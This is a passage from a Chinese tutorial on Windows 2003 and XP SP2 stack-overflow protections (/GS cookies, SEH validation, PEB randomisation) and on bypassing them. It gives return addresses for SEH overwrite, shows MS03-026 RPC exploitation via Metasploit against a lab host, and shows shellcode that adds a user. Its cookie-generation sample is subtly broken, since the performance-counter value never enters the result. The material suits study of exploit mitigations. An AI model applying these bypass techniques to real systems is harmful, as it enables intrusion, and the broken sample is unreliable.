

也许大家会问，安全 Cookie 是怎样产生的呢？安全 Cookie 是一个与系统时间、当前进程、线程 ID 等参数相关的 32 位数值，具有很高的随机性，因此很难预测。安全 Cookie 的产生过程演示如下（VC6 下编译通过）：

```c
FILETIME ft;
unsigned int Cookie = 0;
unsigned int tmp = 0;
unsigned int *ptr = 0;
LARGE_INTEGER perfcount;
GetSystemTimeAsFileTime(&ft); // 获取系统时间
// 通过几个函数的返回值与 Cookie 进行 XOR 操作
Cookie = Cookie ^ ft.dwLowDateTime;
Cookie = Cookie ^ GetCurrentProcessId();
Cookie = Cookie ^ GetCurrentThreadId();
Cookie = Cookie ^ GetTickCount(); // 随机数
QueryPerformanceCounter(&perfcount);
ptr = (unsigned int *)&perfcount;
// 最终得到的 Cookie
Cookie = Cookie ^ tmp;
printf("Cookie is: %.8x\n", Cookie);
```

原理就是这样。为了便于理解，下面我们以 Windows 2003 为平台，分别演示用传统方式利用 VC6、Visual Studio .NET 2003 上编译的同一个有溢出漏洞的程序，以及 Windows 2003 下的 RPC 堆栈溢出漏洞，看看它们的效果分别会是怎样的。

- 1）通过 VC6 编写一个本地溢出程序，溢出后 ShellCode 功能是添加用户 X、密码 X，如图 5 所示。



编译、生成可执行程序，Cmd 下执行结果显示可以成功添加用户，如图 6 所示。这说明 VC6 编译生成的具有溢出漏洞的程序在 Windows 2003 是可以成功利用的。



- 2）在 Visual Studio .NET 2003 创建一个项目，功能代码与以上 VC6 编译的那个完全一样，如图 7 所示。在 Visual Studio .NET 开发环境中设置此编译器选项：“打开项目”->“属性”->“C/C++”->“代码生成”，然后修改“缓冲区安全检查”属性为“是”，如图 8 所示。



图 7



图 8

编译并生成可执行程序后，在 Cmd 下执行，结果弹出了错误报告框，提示发生了缓冲区溢出，并默认为终止程序，如图 9 所示。单击“终止”后，输入 `net user` 命令，结果没有添加上指定的用户，也就是说 ShellCode 执行失败。



图 9

同一系统下用不同编译器编译相同的源代码，生成的具有溢出漏洞的程序执行结果却不同。原因就在于我们在 Visual Studio .NET 2003 中设置的 /GS 选项。换句话说，Visual Studio .NET 就是通过设置 /GS 选项来实现安全 Cookie 对堆栈溢出的保护功能的。

- 3）Windows 2003 上具有的 RPC 堆栈溢出漏洞，大家可以拿出漏洞扫描工具（如 retinarpcdcom.exe）来扫描 2003 的机器试试。针对该漏洞，通过传统的利用方式——通用的 jmp esp（0x7ffa4512）跳转方式来攻击。这里主机 192.168.3.177 是 Windows 2003 Server，攻击如图 10 所示。



图 10

再跑到 192.168.3.177 前一看，它弹出了我们熟悉的关机倒计时对话框。郁闷，对 Windows 2000 和 XP SP0、SP1 百试不爽的 RPC 攻击工具，居然在 Windows 2003 面前不灵了。3 个演示结束了，大家可能已经明白了前面讲的 Windows 2003 的堆栈溢出保护机制只存在于 Windows 2003 系统和 Visual Studio .NET 编译器这一说法吧。

再回到本节开始的地方，我们说 Windows 2003 的保护机制中还有一个技术，我们称为可控的 SEH 处理函数指针。技术细节是这样的：Windows 2003 中结构化异常处理例程注册后，它的函数指针会保存在模块中的一个叫“Load Configuration Directory”的地址列表中。如果函数返回时系统发现堆栈中的 Cookie 发生了改变，则认为发生了溢出。这时，系统会查看当前线程相关的 SEH 中是否有相应的处理函数指针。如果有处理函数指针，系统并不是直接调用该处理函数，而是将该指针与已注册过函数的地址列表进行对照。如果没有发现匹配的，并且处理函数指针位于堆栈中，那么异常处理函数将不被运行。如果该处理函数指针位于已加载的各 DLL 模块地址范围之外，或者位于堆中，处理函数仍然会被执行。这种可控制的异常处理技术使得我们传统的简单覆盖 SEH 处理函数指针的利用方式也会失败。

既然 Windows 2003 有这样的堆栈保护机制，那我们有没有办法对其进行突破呢？

##### 2. 突破技术探究

——利用 Windows 2003 的 RPC 堆栈溢出漏洞

针对 Windows 2003 的堆栈保护机制特性，我们可以用已加载模块以外的地址来覆盖 SEH，这是一种比较可行的突破方式。如果覆盖的地址中指令是类似于“call/jmp [register + XY]”这样的形式，且该 `[register + XY]` 正好指向 ShellCode 中的某处，就有办法利用前面那个 RPC 溢出漏洞了。

David Litchfield 不愧为溢出技术领域的大牛人，他发现 Windows 2003 下 svchost.exe 始终将 UNICODE.nls 加载到 0x001a0000 处，而在偏移 0x10b0b 处就是 `call dword ptr [EBP + 30h]` 指令。这里的 UNICODE.nls 是 Windows 下关于 UNICODE 编码的一个数据文件。大家如果这里不清楚的话，我来验证一下这个地址。

打开进程查看器 procexp.exe，找到 svchost.exe，我们可以看到 UNICODE.nls 及其加载地址（base），如图 11 所示。



图 11

然后打开 SoftICE，输入命令“addr svchost”进入 svchost 进程空间。系统中有多个 svchost 进程，默认进入的就是 RPC 服务进程。输入命令“d 001b0b0b”，然后通过指令“u 001b0b0b L 20”将这段汇编导出，如图 12 所示。



图 12

大家现在看到了吧，在 001b0b0b 处就有这样一个跳转指令，而 001b0b0b 位于已加载模块之外的地址，正好符合利用条件。这时 EBP 在 ShellCode 附近，我们将 SEH 处理函数指针覆盖为 0x001b0b0b，而在 ShellCode 前面填充一些 NOP，就可以成功利用了。

关于对 Windows 2003 上 RPC 堆栈溢出漏洞的利用，著名的安全检测工具 Metasploit 更新了一个脚本 msrpc_dcom_ms03_026，这个脚本就是根据前面讲的利用技术实现的，如图 13 所示。

```text
['Windows NT SP3-6a/2k/XP/2K3 ALL', ...]
msrpc_dcom_ms03_026 目标列表与返回地址配置（截图）
```

图 13

Metasploit 是用 Perl 集成的一个强大的溢出工具包，大家可以到它的网站 http://metasploit.com 下载并安装，而且还有源代码供下载。安装后，直接点击 Msfconsole.bat 进入其命令行界面，如图 14 所示。



图 14

Metasploit 具体命令我就不多解释了，常用的就那么几个，大家看了帮助文档后很快就可以掌握。这里我们直接输入漏洞利用的一些命令，结果如图 15 所示。



图 15

成功获得了我们熟悉的 DOS 窗口。这个例子给了我们启示：如果以后 Windows 2003 上再出现这样的堆栈溢出漏洞，我们就可以尝试类似模式来利用。

## XP SP2 的堆栈保护技术 + 突破

看了前面关于 Windows 2003 溢出保护机制的讲解，希望没有让大家昏昏欲睡。接下来，我们再来看看 XP SP2 上堆栈溢出保护。

##### 1. 保护技术分析

XP SP2 是在 Windows 2003 之后推出的一款操作系统补丁。SP2 在系统安全性方面下了很大的工夫，特别针对缓冲区溢出又作了一些限制。

XP SP2 的溢出保护是通过对 PEB、TOP SEH 等指针作随机性处理来实现的，这个在 funnywei 的那篇《Windows XP SP2 溢出保护》中有比较详细的描述，这里我们再简单分析一下。

SP2 的溢出保护技术，包括 PEB、TOP SEH 等指针的随机化，以及对 VEH 链表指针、RtlpCalloutEntryList 的保护等。但结合到堆栈溢出，我觉得主要技术就是 PEB 指针的随机化。

因为 PEB 指针与我们 ShellCode 中查找 kernel32.dll 地址有关系，而 kernel32.dll 又与我们查找 GetProcAddress 函数地址紧密相关。同一版本系统中，PEB 指针如果不固定，kernel32.dll 的地址就不固定，我们也就不能用传统的“版本对应固定地址”方式，直接通过固定 kernel32.dll 地址来获取 ShellCode 中 API 函数地址。

还是先看看原理吧。在 XP 系统下，PEB 指针是进程创建时指定的。创建进程使用的是 _NtCreateProcessEx 函数，而并非 _NtCreateProcess 函数。通过对 _NtCreateProcessEx 函数的层层反汇编，我们可以看到后面会调用一个 _MiCreatePebOrTeb@12 函数，在 SP2 下其中一个参数为 210h。

```asm
PAGE:004B01FB    cmp [ebp+arg_8], 210h
PAGE:004B0202    jz  loc_4B4A0A
```

在 _MiCreatePebOrTeb@12 函数如图 16 所示。



意思是将参数与 210h 进行比较，如果相等则在后面将 PEB 指针设置为随机值。当然这种随机只是在几个固定数值之间随机变动，但却能给我们的利用带来不小的负面影响。

我们来实际验证一下 PEB 指针的随机性。下面的代码都是在 XP SP2 下，用 VC6 编译通过的。

用 VC6 编写一段代码，功能就是获取当前线程的 PEB 指针。代码如下：

```c
DWORD dwPEB;
__asm {
  mov edi, fs:[30h]   // ppeb
  ...
  mov dwPEB, edi
}
printf("Address of PEB:%x\n", dwPEB);
```

编译、生成可执行程序后，在 Cmd 下反复执行，结果如图 17 所示。



大家看到了，进程的 PEB 指针真的是随机值，而且随机得还比较有意思，来回就那么几个值。在其他版本 Windows 下，PEB 指针值都是固定的，而且一般都是 0x7ffdf000。一个有趣的计算结果是：PEB 